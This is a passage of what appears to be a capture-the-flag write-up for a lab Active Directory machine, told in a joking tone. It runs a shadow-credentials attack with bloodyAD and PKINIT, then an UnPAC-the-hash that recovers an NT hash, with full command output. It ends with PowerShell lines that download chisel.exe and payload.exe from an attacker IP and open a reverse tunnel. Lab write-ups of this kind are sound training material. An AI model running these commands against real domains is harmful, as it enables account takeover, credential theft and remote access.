 So how do we get spicy with this? We’re about to hit `e.rodriguez` with **Shadow Credentials**—basically stuffing a fake cert into his account like it’s a USB Rubber Ducky in a coffee shop laptop.

```console
$ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' add shadowCredentials 'e.rodriguez'
[+] KeyCredential generated with following sha256 of RSA key: 21db2d646e4fd3177d1c18717161109ed382cae2e6ed5529cf1589e41a38ad3c
No outfile path was provided. The certificate(s) will be stored with the filename: LN43uoBF
[+] Saved PEM certificate at path: LN43uoBF_cert.pem
[+] Saved PEM private key at path: LN43uoBF_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem LN43uoBF_cert.pem -key-pem LN43uoBF_priv.pem infiltrator.htb/e.rodriguez LN43uoBF.ccache
```

This lets us **Pass the Certificate** using PKINIT, snag a TGT, and suddenly we’re `e.rodriguez` now. It’s like Face/Off but for Active Directory. Kerberos never saw it coming.

```console
$ python3 PKINITtools/gettgtpkinit.py -cert-pem LN43uoBF_cert.pem -key-pem LN43uoBF_priv.pem infiltrator.htb/e.rodriguez LN43uoBF.ccache
2024-09-01 12:36:01,801 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-09-01 12:36:01,812 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-09-01 12:36:24,016 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-09-01 12:36:24,016 minikerberos INFO     35baa0aa822a3ef8d83996e27d41606658fd9f2a836639d7b8ed7c1f95b7a678
INFO:minikerberos:35baa0aa822a3ef8d83996e27d41606658fd9f2a836639d7b8ed7c1f95b7a678
2024-09-01 12:36:24,028 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Having obtained the TGT, we can conduct an UnPAC-the-hash to recover the NT hash of the target account.

```console
$ export KRB5CCNAME=LN43uoBF.ccache
$ python3 PKINITtools/getnthash.py infiltrator.htb/e.rodriguez -key 35baa0aa822a3ef8d83996e27d41606658fd9f2a836639d7b8ed7c1f95b7a678 -dc-ip 10.129.149.83
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
Recovered NT Hash
b02e97f2fdb5c3d36f77375383449e56
```

Boom, we just snagged the NT Hash of `e.rodriguez` like a digital pickpocket in a hacker’s convention. Now it’s time to boss up and slap this user into the **CHIEFS MARKETING** group — because who doesn’t wanna be a marketing chief.

While we’re at it, we’re gonna _force_ poor `m.harris` to change their password faster than you ghost your ex. But first, don’t forget to pimp out your `/etc/krb5.conf` file with the right settings or Kerberos will just laugh at you like you showed up to a sword fight with a butter knife.


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe